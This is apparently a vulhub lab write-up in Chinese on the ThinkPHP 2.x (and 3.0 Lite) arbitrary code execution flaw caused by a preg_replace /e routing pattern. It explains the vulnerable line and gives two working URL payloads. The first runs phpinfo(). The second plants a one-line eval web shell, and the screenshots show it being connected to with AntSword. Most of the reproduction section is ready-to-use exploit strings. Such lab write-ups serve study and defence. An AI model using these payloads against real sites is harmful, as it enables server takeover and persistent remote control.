 # ThinkPHP 2.x 任意代码执行漏洞

###### by ADummy

### 0x00利用路线

​			直接url执行代码

### 0x01漏洞介绍

​			ThinkPHP 2.x版本中，使用`preg_replace`的`/e`模式匹配路由：

```php
$res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));
```

​			导致用户的输入参数被插入双引号中执行，造成任意代码执行漏洞。

​			ThinkPHP 3.0版本因为Lite模式下没有修复该漏洞，也存在这个漏洞

### 0x02漏洞复现

#### payload1(phpinfo)：

http://your-ip:8080/index.php?s=/index/index/name/$%7B@phpinfo()%7D

#### payload2(一句话木马)：

http://your-ip:8080/index.php?s=/index/index/name/${print(eval($_POST[1]))}



​			**默认页面**

![ThinkPHP2_x_rce_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ThinkPHP2_x_rce_1.jpg)



​			**第一个payload，phpinfo()被执行**

![ThinkPHP2_x_rce_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ThinkPHP2_x_rce_2.jpg)

​				

​			**第二个payload，使用蚁剑连接**

![ThinkPHP2_x_rce_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ThinkPHP2_x_rce_3.jpg)

​	

### 0x03参考资料

https://www.cnblogs.com/g0udan/p/12252383.html
